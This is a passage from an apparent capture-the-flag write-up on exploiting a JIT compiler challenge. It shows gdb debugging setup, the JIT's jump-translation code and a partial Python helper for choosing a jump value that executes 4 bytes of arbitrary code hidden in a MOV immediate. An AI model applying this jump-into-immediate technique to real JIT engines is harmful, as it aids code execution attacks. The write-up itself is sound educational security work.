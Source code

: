 ```c
```

I also created a `debug.sh` script that pauses at the start of the JIT compiled instructions.
```bash
#! /bin/sh
gcc -g -o compiler_debug compiler_debug.c
gdb -x gdbinit ./compiler_debug
```
```gdb
# gdbinit
b compiler_debug.c:132
r
si
si
si
si
si
si
```

For example, if the program is just a single *RET*, the `debug.sh` script lands at:
![Debug landing](/images/google19/jit/debug_landing.png)

## Verifying the jump vulnerability
Now that we have a debugger, we can prove that jump can be used to execute 4 bytes of arbitrary code. First, we need to find a jump value that jumps to a convenient location. The perfect jump value is one that executes the last 4 bytes of the next instruction.
```
JMP(<perfect_value>)
MOV(A, <encoded_instructions>)
```

This requires a `jmp 0x03` instruction, which in binary is `\xeb\x01`. Remembering the JIT translation code for *JMP* instructions, this requires `out[4]` to be `0x01`.
```c
out[3] = 0xeb;
out[4] = (intbracket(cmd + 4) - instrno) * 5 - 5; // jmp imm8
```
We can calculate the jump constant using a small snippet of python:
```python
def intbracket(int_string):
    result = 0

    for c in int_string:
        result = result * 10 + ord(c) - 0x30

    return result


def find_jump_value(instruction_number):
    for i in range(800):
        converted_value = (intbracket(str(i)) - instruction_number) * 5 - 5
        single_byte_value = converted_value & 0xff
```